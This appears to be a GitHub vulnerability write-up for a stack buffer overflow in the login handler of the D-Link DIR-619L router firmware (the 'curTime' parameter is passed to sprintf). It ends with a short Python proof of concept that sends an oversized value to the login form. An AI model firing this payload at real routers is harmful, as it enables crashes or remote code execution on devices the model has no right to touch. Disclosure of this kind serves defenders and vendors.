 # dlink-619l-buffer_overflow

**Vender** ：D-Link

**Firmware version**:2.06beta

**Exploit Author**: ys110

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-619L

Vul detail
========

In the handler of router / goform / Login, the http request parameter "curTime" is obtained through the webgetvar function, and curTime is copied to the s1 register


![image](https://github.com/hhhhu8045759/dlink-619l-buffer_overflow/blob/master/3.png)


After login authorization, at the end of the function, in the websRedirect function


![image](https://github.com/hhhhu8045759/dlink-619l-buffer_overflow/blob/master/4.png)

call the send_r_moved_perm function. The value of curTime is copied to the a2 register, and the sprintf function copies it to the stack, it does not check the length, and a very long input could lead to stack overflow and overwrite the return address, remote code execution

![image](https://github.com/hhhhu8045759/dlink-619l-buffer_overflow/blob/master/5.png)

![image](https://github.com/hhhhu8045759/dlink-619l-buffer_overflow/blob/master/619.png)

poc
====
```python
import requests
import sys
import struct
import string
import base64
def login(shellcode,user,password,ip):
	postData = {
	'login_name':'yuanshuo',
	'curTime':'a'*300,
	'FILECODE':"12345",
	'VER_CODE':'vercode',
	'VERIFICATION_CODE':'12345',
	'login_n':user,
	'login_pass':password,
	}
	response = requests.post('http://192.168.1.1/goform/formLogin',data=postData)
        
        #print 'http://' + ip + '/goform/formLogin'
        print response.json


if __name__ == "__main__":
	login(shellcode,'admin', base64.b64encode('shuoshuo110'),'192.168.1.1')

```

